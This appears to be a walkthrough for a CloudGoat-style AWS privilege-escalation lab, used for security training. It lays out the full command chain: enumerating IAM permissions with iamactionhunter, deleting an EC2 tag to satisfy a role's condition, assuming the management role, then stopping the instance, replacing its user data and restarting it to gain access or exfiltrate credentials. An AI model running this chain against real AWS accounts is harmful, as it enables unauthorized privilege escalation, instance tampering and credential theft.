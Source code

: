 ### Enumerate the user and roles we have access to from the start cg_dev_user
```
# Gather all roles and users permissions
iamactionhunter --collect --profile cg_dev_user

# Check for Write actions that the dev_user has
iamactionhunter --config write_actions --account <account_id> --user cg_dev_user

# Check if the dev_user has any interesting IAM permissions
iamactionhunter --config dangerous_iam --account <account_id> --user cg_dev_user

# See what write permissions the role you can assume has
iamactionhunter --config write_actions --account <account_id> --role cg_ec2_management_role

# Check back on the dev_user see if you can do anything with tags
iamactionhunter --query 'ec2:*tag*' --account <account_id> --user cg_dev_user

# Note you can delete tags allowing you to satisfy the condition set for the ec2_management_role
```

### Use the dev_user to enumerate ec2 instances
```
# Get instances that have the tag referenced in the condition
aws ec2 describe-instances --region us-west-2 --profile cg_dev_user --filter "Name=tag:Name,Values=cg_admin_ec2*" 
```



### Delete the tag using the dev_user on the EC2 to satisfy the condition for the cg_ec2_management_role
```
aws ec2 delete-tags --region us-west-2 --profile cg_dev_user --resources <instance_id> --tags Key=Name
```

### Assume the cg_ec2_management_role
```
aws sts assume-role --role-arn arn:aws:iam::<account_id>:role/cg_ec2_management_role --role-session-name blah --profile cg_dev_user
```

### Use the cg_ec2_management_role to stop the instance
```
aws ec2 stop-instances --region us-west-2 --profile cg_ec2_management_role --instance-ids <instance_id>
```

### Use the cg_ec2_management_role to modify the userdata to access the EC2 or exfiltrate credentials from it ([https://hackingthe.cloud/aws/exploitation/local-priv-esc-mod-instance-att/](https://hackingthe.cloud/aws/exploitation/local_ec2_priv_esc_through_user_data/))
```
aws ec2 modify-instance-attribute --region us-west-2 --profile cg_ec2_management_role --instance-id <instance_id> --attribute userData --value file://user-data.txt
```

### Use the cg_ec2_management_role to start the instance
```
aws ec2 start-instances --region us-west-2 --profile cg_ec2_management_role --instance-ids <instance_id>
```

### Access the EC2 or exfiltrate credentials and gain admin privileges
The EC2 does not have internal or external network access so you will not be able to exfiltrate credentials
